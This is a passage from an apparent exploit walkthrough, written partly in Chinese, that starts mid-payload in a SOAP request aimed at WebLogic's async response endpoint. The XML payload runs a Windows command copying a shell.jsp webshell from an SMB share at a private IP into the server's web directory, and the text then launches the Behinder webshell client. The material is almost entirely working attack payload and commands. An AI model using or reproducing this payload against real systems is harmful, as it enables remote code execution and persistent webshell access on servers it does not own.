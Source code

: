 ```xml
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>copy \\192.168.111.5\share\shell.jsp servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\1.jsp
</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>

```

启动冰蝎

```cmd
java -jar Behinder_v3.0_Beta6_linux.jar &
```

![](img/3.png)
